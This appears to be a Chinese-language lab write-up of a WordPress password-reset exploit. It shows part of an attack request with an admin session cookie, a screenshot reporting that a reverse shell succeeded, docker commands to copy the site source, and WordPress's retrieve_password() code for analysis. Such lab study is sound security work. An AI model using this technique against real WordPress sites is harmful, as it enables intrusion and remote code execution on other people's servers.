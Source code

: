 ```bash
Cookie: sensorsdata2015jssdkcross=%7B%22distinct_id%22%3A%228d70666ed7af21dfe4c17ab54c6e82e7%22%2C%22first_id%22%3A%22191078d1ccb607-079cc2afb934768-26001e51-1327104-191078d1ccc10a5%22%2C%22props%22%3A%7B%22%24latest_traffic_source_type%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%2C%22%24latest_search_keyword%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%2C%22%24latest_referrer%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%7D%2C%22identities%22%3A%22eyIkaWRlbnRpdHlfY29va2llX2lkIjoiMTkxMDc4ZDFjY2I2MDctMDc5Y2MyYWZiOTM0NzY4LTI2MDAxZTUxLTEzMjcxMDQtMTkxMDc4ZDFjY2MxMGE1IiwiJGlkZW50aXR5X2xvZ2luX2lkIjoiOGQ3MDY2NmVkN2FmMjFkZmU0YzE3YWI1NGM2ZTgyZTcifQ%3D%3D%22%2C%22history_login_id%22%3A%7B%22name%22%3A%22%24identity_login_id%22%2C%22value%22%3A%228d70666ed7af21dfe4c17ab54c6e82e7%22%7D%2C%22%24device_id%22%3A%22191078d1ccb607-079cc2afb934768-26001e51-1327104-191078d1ccc10a5%22%7D; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_7190a056b1cc7873906429f8cddddb02=admin%7C1732002252%7CfbYDZeETioZFLstg3UZ7ukpRKeBB2ReH1oUE82o0eHq%7C537b96a73a75409acb793ccd24ea9ec6ec0d9e79e3f8cb951391efc4f2b4ea78; wp-settings-time-1=1730792806
Connection: keep-alive

user_login=admin&redirect_to=&wp-submit=%E8%8E%B7%E5%8F%96%E6%96%B0%E5%AF%86%E7%A0%81
```



#### 反弹成功

![image-20241105174826666](https://image.201068.xyz/assets/11.Wordpress/image-20241105174826666.png)

#### 拷贝代码

```bash
docker ps -s	#获取容器id
docker cp 09bba935c9dc:/var/www/html /root/wordpress_src_web_1
```

![image-20241105175259035](https://image.201068.xyz/assets/11.Wordpress/image-20241105175259035.png)



#### 代码分析

根据忘记密码页面的url `wp-login.php?action=lostpassword`

定位到`wp-login.php`的`retrieve_password`函数，此函数是对密码的操作函数。

找到`wp_mail`方法

![image-20241105175648779](https://image.201068.xyz/assets/11.Wordpress/image-20241105175648779.png)

```bash
function retrieve_password() {
	global $wpdb, $wp_hasher;

	$errors = new WP_Error();

	if ( empty( $_POST['user_login'] ) ) {
		$errors->add('empty_username', __('<strong>ERROR</strong>: Enter a username or email address.'));
	} elseif ( strpos( $_POST['user_login'], '@' ) ) {
		$user_data = get_user_by( 'email', trim( wp_unslash( $_POST['user_login'] ) ) );
		if ( empty( $user_data ) )
			$errors->add('invalid_email', __('<strong>ERROR</strong>: There is no user registered with that email address.'));
	} else {
		$login = trim($_POST['user_login']);
		$user_data = get_user_by('login', $login);
	}

	/**
	 * Fires before errors are returned from a password reset request.
	 *
	 * @since 2.1.0
```